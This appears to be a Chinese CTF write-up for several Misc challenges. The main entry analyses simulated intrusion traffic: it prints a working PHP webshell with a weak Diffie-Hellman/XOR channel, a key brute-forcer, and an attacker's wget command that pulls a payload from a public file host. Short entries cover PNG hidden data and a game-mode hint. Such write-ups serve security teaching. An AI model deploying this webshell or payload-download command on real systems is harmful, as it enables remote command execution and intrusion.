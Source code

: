 # Misc

## APU的犯罪证据

出题壬临时起意，弄了个简单地缝合了misc,crypto,re,web的题目。本题的背景是模拟黑客入侵过程中的流量，有一定的实际意义(自卖自夸ing)。

首先下载流量包，弄个http的过滤参数，看到一堆http包
![无标题.png](https://i.loli.net/2020/05/27/VkvueAo3lCbHxw6.png)
接着点开那个POST包，发现是上传webshell
![无标题.png](https://i.loli.net/2020/05/27/KLsrUvwlmyXYTJe.png)
就可以发现webshell长这样

```php
<?php
session_start();
function fastpow($a,$b,$c)
{
    if($b==0)
        return 1;
    $res=fastpow($a,intval($b/2),$c);
    if($b%2)
        return $res*$res*$a%$c; 
    return $res*$res%$c;
}
if(!isset($_SESSION['p']))
{
    $_SESSION['p']=rand(1, 255);
    $_SESSION['.']=rand(5,10);
    $_SESSION['ra']=rand(50, 100);
    $Sa=fastpow($_SESSION['.'],$_SESSION['ra'],$_SESSION['p']);
    printf("%d,%d,%d",$_SESSION['p'],$_SESSION['.'],$Sa);
    die();
}
if(!isset($_SESSION['key']))
{
    $_SESSION['key']=fastpow($_GET['sb'],$_SESSION['ra'],$_SESSION['p']);
    die();
}
$code=$_REQUEST['code'];
$cmd='';
for($i=0;$i<strlen($_REQUEST['code']);$i++)
{
    $cmd.=chr(ord($_REQUEST['code'][$i]) ^ $_SESSION['key']);
}
ob_start();
system($cmd);
$res=ob_get_contents();
ob_end_clean();
for($i=0;$i<strlen($res);$i++)
{
  echo chr(ord($res[$i]) ^ $_SESSION['key']);
}
```

这个webshell也是出题壬临时起意写的，上午做觅马学作业来的灵感。

这个webshell使用了diffie-hellman密钥交换协议，使得被动监听者无法直接拿到流量。但是密钥过弱，是1-255，非常容易爆破
编写脚本进行爆破

```python
import urllib.parse
cipher=urllib.parse.unquote('ez%7Ds%7F%7B')
def xor(i):
    return ''.join([chr(ord(c)^i) for c in cipher ])
for i in range(1,256):
    print(i)
    print(xor(i))
```

过程不截图了，i为18的时候结果是whoami，所以密钥为18，这样就可以解密所有流量了。

接着可以在流量里面发现攻击者用webshell执行了一个命令

```shell
wget "http://pan-yz.chaoxing.com/download/downloadfile?fleid=471314960076619776&puid=117048149" -U "Mozilla/5.0 (Windows NT 10.0; WOW64;  rv:43.0) Gecko/20100101 Firefox/43.0"  -O a
```

让受控机从超星服务器上面下载一个文件，然后执行。注意，这在真实的入侵中也是一种常见的手段，攻击者往往会采取各种公开的基础设施来托管自己的恶意代码，从而绕过一些基于黑名单防护的流量监控设备,实现隐藏自身的目的

(由于出题壬的失误,这个URL也可以直接在流量包里面找到,我错了我自裁)

好的,我们从这个URL下载文件,然后拖入IDA,发现就是读取flag,编码后输出
![无标题.png](https://i.loli.net/2020/05/27/S7nmKpkaI5zBFjW.png)
跟进这个encode_string函数
![无标题.png](https://i.loli.net/2020/05/27/lJXRAp6wVvzbTjh.png)
发现是个变种base64加密,密码表在chlist里面
(很诚实地讲,出题壬在出题的时候联系了@Minhal 来写这个程序,至于该怎么看出这是base64,坦白来说,作为一个web🐕我也不知道)
点开chlist查看密码表
![无标题.png](https://i.loli.net/2020/05/27/Ne2RaD8yrUifgJX.png)

接着根据流量里面的对应内容编写解密脚本
(该脚本由@lcx贡献,感谢他)

```python
s = 'NOPQRSABCDEFGHIa23156bcdefgJKLMT7894VWXYZhijklmnopqrstuvwxyz0+/'
dest = 'KuHtev3XMu8WJW+ZfcxTecS8ecS8ecS8ecS8ecS8ecS8edsE'

i = 0
flag = ''

while i < len(dest):

	temp = s.index(dest[i]) << (6 * 3)
	temp += (s.index(dest[i + 1]) << (6 * 2))
	temp += (s.index(dest[i + 2]) << (6 * 1))
	temp += (s.index(dest[i + 3]) << (6 * 0))

	flag += chr((temp >> 16) & 0xff)
	flag += chr((temp >> 8) & 0xff)
	flag += chr(temp & 0xff)

	i += 4

print(flag)
```

运行出flag

## 专业团队

~~我才不会告诉你们是出题人选错了压缩算法才让这个题这么简单~~

### 原本的想法

PNG文件的IDAT块的大小是固定的，从上往下除了最后一个IDAT块可能比较小，其它应该都是一样大的。但是这个文件里的倒数第二个IDAT块大小不对，应该有隐藏信息

![pngcheck检查结果](./assert/dancing1.png)

### 大家的解法

直接binwalk出gz压缩包，解压获得flag

## 假的签到

`/gamemode 3`进观察者模式，就能看到地下的空洞（还插着火把）
